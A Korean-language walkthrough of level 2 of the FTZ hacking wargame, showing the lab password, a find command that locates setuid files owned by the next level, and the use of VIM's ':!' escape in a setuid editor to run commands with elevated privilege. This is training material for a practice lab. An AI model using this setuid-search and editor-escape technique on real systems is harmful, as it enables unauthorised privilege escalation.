 ```yaml
---
sort: 2
---
```


# Level 2

```note
id : level2

password : hacker or cracker
```

```bash
[level2@ftz level2]$ cat hint

텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...
```

level1과 마찬가지로 setuid가 걸려있는 파일을 찾자.

```bash
[level2@ftz level2]$ find / -user level3 -perm +4000 2> /dev/null
/usr/bin/editor
[level2@ftz level2]$ ls -al /usr/bin/editor
-rwsr-x---    1 level3   level2      11651 Sep 10  2011 /usr/bin/editor
```

setuid가 걸려있기 때문에 editor를 실행하면 level3의 권한을 얻게된다.<br>
editor를 실행하면 VIM이 실행이 된다. VIM은 Linux에서 사용되는 메모장이다.<br>
a, i 등의 키를 이용하여 텍스트 수정 모드로 들어갈 수 있고 esc키를 이용하여 명령어 모드로 들어갈 수 있다.<br>
명령어모드에서 :!를 이용하면 shell 명령어를 사용할 수 있다.

```bash
:!my-pass
```

```tip
## 알게 된 점

VIM 사용법
```